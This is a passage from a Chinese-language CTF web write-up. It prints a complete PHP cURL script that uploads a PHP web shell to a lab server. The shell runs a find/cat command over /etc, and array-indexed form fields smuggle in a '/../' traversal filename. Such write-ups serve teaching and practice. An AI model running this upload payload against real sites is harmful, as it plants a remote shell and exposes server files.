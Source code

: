 ```php
else{
    highlight_file(__FILE__);
}
```

绕过方式参考->[2018上海web2](https://xi4or0uji.github.io/2018/11/06/2018%E4%B8%8A%E6%B5%B7%E5%B8%82%E5%A4%A7%E5%AD%A6%E7%94%9F%E4%BF%A1%E6%81%AF%E5%AE%89%E5%85%A8%E7%AB%9E%E8%B5%9Bweb%E9%A2%98%E8%A7%A3/#web2)

然后构造php的curl，上传到upload处让它触发（太巧妙了吧~ 简直是天籁~

我看赵师傅是用postman直接生成的payload，可是我生成的跟他的版本看起来完全不一样，少了post该有的很多东西，比如分割线啊，文件类型和内容什么的，不知道为啥

![image-20211210111755666](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210111755666.png)

```php
<?php

$curl = curl_init();

curl_setopt_array($curl, array(
    CURLOPT_URL => "http://10.0.39.6/",
    CURLOPT_RETURNTRANSFER => true,
    CURLOPT_ENCODING => "",
    CURLOPT_MAXREDIRS => 10,
    CURLOPT_TIMEOUT => 30,
    CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
    CURLOPT_CUSTOMREQUEST => "POST",
    CURLOPT_POSTFIELDS => "------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"file\"; filename=\"amiz.php\"\r\nContent-Type: false\r\n\r\n@<?php echo `find /etc -name *flag* -exec cat {} +`;\r\n\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"hello\"\r\n\r\namiz.php\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"file[2]\"\r\n\r\n222\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"file[1]\"\r\n\r\n111\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"file[0]\"\r\n\r\n/../amiz.php\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\nSubmit\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW--",
    CURLOPT_HTTPHEADER => array(
        "Postman-Token: a23f25ff-a221-47ef-9cfc-3ef4bd560c22",
        "cache-control: no-cache",
        "content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW"
    ),
));

$response = curl_exec($curl);
$err = curl_error($curl);

curl_close($curl);

if ($err) {
    echo "cURL Error #:" . $err;
} else {
    echo $response;
}

```
